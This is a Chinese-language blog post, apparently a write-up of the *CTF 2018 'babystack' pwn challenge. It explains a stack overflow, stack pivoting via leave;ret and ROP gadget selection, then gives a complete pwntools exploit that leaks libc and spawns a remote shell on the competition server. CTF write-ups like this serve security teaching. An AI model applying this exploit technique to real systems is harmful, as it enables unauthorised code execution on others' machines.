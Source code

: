 ```yaml
---
layout: post
title: "*CTF babystack"
date: 2018-04-26
categories: jekyll update
---
```

### *CTF babystack

只有PIE没有开：
```
root@kali:~/Desktop/*ctf/babystack_# checksec bs
[*] '/root/Desktop/*ctf/babystack_/bs'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```
刚看到的时候有点不知所措，后来才知道ebp是定了的，明显有栈溢出漏洞：

<img src="/images/posts/starctf/1524760272195.png" >

<img src="/images/posts/starctf/1524760361410.png" >

在我们仅仅只能够控制ebp的情况下，我们怎么才能够控制eip去拿到我们的shell呢。这里就可以利用译者栈迁移的操作来构造一个ebp链，利用puts打印泄露函数地址(libc地址)，而且题目给出了libc库，因此就有了system地址和binsh地址，然后再用read函数和ROP链来调用system就可以成功getshell了

栈迁移的参考资料：
+ https://blog.csdn.net/zszcr/article/details/79841848
+ https://blog.csdn.net/yuanyunfeng3/article/details/51456049
+ http://veritas501.space/2017/05/23/HITCON-training%20writeup/

栈迁移：通过将ebp覆盖成我们构造的`fake_ebp`(可以是一些数据段上的地址，只要可读可写就行了) ，然后利用`leave_ret`这个`gadget`将`esp`劫持到`fake_ebp`的地址上
leave_ret相当于：

    mov esp,ebp 
    pop ebp  
    pop eip


先找到可以控制rdi、rsi寄存器值的gadget
这里用了这俩：
```
0x0000000000400c03 : pop rdi ; ret
0x0000000000400c01 : pop rsi ; pop r15 ; ret
```
ROPgadget来找gadget
```
root@kali:~/Desktop/*ctf/babystack_# ROPgadget --binary bs --only "pop|ret"
Gadgets information
============================================================
0x0000000000400bfc : pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400bfe : pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400c00 : pop r14 ; pop r15 ; ret
0x0000000000400c02 : pop r15 ; ret
0x0000000000400bfb : pop rbp ; pop r12 ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400bff : pop rbp ; pop r14 ; pop r15 ; ret
0x0000000000400870 : pop rbp ; ret
0x0000000000400c03 : pop rdi ; ret
0x0000000000400c01 : pop rsi ; pop r15 ; ret
0x0000000000400bfd : pop rsp ; pop r13 ; pop r14 ; pop r15 ; ret
0x0000000000400287 : ret
0x000000000040097e : ret 0x8b48

Unique gadgets found: 12
```

这里可以看下分析过程：
读入多少字节数17f0-->6128

<img src="/images/posts/starctf/1524756229230.png" >

看ebp链找到偏移量4112。

payload  写到栈上之后，ebp改变了

<img src="/images/posts/starctf/1524756202201.png" >

<img src="/images/posts/starctf/1524756275226.png" >

构造ROP链的payload

```
payload = p64(buf) + p64(pop_rdi) + p64(puts_got) + p64(puts_plt)
payload += p64(pop_rdi) + p64(0) + p64(pop_rsi) + p64(buf+0x8) + p64(16) + p64(read_plt) + p64(leave)
```

第一个payload就是用puts来泄露libc地址，第二个payload就是调用read函数，以便后面泄露完libc地址后再传一次参数给假的栈上面，进而调用system的时候用的参数。

具体脚本：
```
#!/usr/bin/env python
# -*- coding: utf-8 -*-

from pwn import *
import hashlib
import itertools
import string
import os
#import time
r=remote("47.91.226.78", 10005)
#r = process("./bs",env = {'LD_PRELOAD':'./libc.so.6'})
elf = ELF("./bs")
libc = ELF("./libc.so.6")



def proofwork():
  r.recvuntil('sha256(xxxx+')
  a=r.recvline()
  print a
  proof=a.split(" ")[-1]
  x=a.split(")")[0]
  proof=proof.strip()
  print r.recvuntil("xxxx:\n")
  for i in itertools.product(string.ascii_letters+string.digits,repeat=4):
    test="".join(i)+x
    k=hashlib.sha256()
    k.update(test)
    if k.hexdigest()==proof:
      print "find"
      r.sendline("".join(i))
      break
proofwork()
     




main=0x4009e7
pop_rdi = 0x400c03  #pop rdi ; ret
pop_rsi = 0x400c01  #pop rsi ; pop r15 ; ret
read_plt = elf.plt['read']
#atoi_got = elf.got['atoi']
puts_got = elf.got['puts']
puts_plt = elf.plt['puts']
buf = 0x602f00
leave = 0x400955

log.info("read_plt addr: " + hex(read_plt))
log.info("puts_got addr: " + hex(puts_got))
log.info("puts_plt addr: " + hex(puts_plt))

payload = p64(buf) + p64(pop_rdi) + p64(puts_got) + p64(puts_plt)
payload += p64(pop_rdi) + p64(0) + p64(pop_rsi) + p64(buf+0x8) + p64(16) + p64(read_plt) + p64(leave)


print r.recvuntil("How many bytes do you want to send?\n")
#pause()
r.sendline(str(6128))
#r.sendlineafter('send?\n', str(6128))
#pause()
r.send("a"*4112 + payload + "a"*(6128-4112-len(payload)))

r.recvuntil("It's time to say goodbye.\n")
#print r.recvline()
#libc.sym['puts']
bin_sh_offset = libc.search('/bin/sh').next()
system_offset = libc.sym['system']
libc_base=u64(r.recvline()[:6]+"\x00\x00") - libc.sym['puts']
log.info("puts_libc_offset addr: " + hex(libc.sym['puts']))
log.info("system_offset addr: " + hex(libc.sym['system']))
log.info("bin_sh_offset addr: " + hex(bin_sh_offset))
log.info("libc_base addr: " + hex(libc_base))

system = libc_base + system_offset
binsh = libc_base + bin_sh_offset

r.sendline(p64(pop_rdi)+p64(binsh)+p64(system))

r.interactive()

```